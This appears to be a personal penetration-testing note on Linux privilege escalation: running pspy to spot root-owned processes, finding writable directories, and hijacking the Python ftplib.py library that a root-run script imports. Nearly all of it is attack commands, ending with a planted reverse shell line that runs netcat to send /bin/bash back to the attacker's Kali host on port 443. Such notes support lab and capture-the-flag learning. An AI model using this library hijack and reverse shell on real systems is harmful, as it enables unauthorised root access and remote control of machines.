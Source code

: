 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

32 or 64?
```bash - target
uname -a
```

32 download
```bash - kali
wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.0/pspy32
```

64 download
```bash - kali
wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.0/pspy64
```

transfer to Target

![[TechLexicon/Penetration Testing/Reference/7._Tools/Python#Server]]

```bash - target
chmod +x pspy64
```

```bash - target
./pspy64
```

Look at the output, look for any UID=0, as this is the root user.  Look for any commands that are calling a file / script that we may have write privileges to.

![[Pasted image 20211229224921.png | 1000]]

```bash - target
find / -writable -type d 2>/dev/null
```

![[Pasted image 20221110104834.png]]

```bash - target
cat /opt/ftpclient/ftpclient.py
```

```bash - kali
cd /usr/lib/python2.7
```

Check if we have read / write privs:
```bash - kali
ls -lah ftplib.py
```

Open the file, and put in a reverse shell command:
```bash - kali
nano ftplib.py
```

![[rlwrap]]

```python - kali
os.system("nc -e /bin/bash $KALI 443")
```

![[Pasted image 20211229225151.png]]










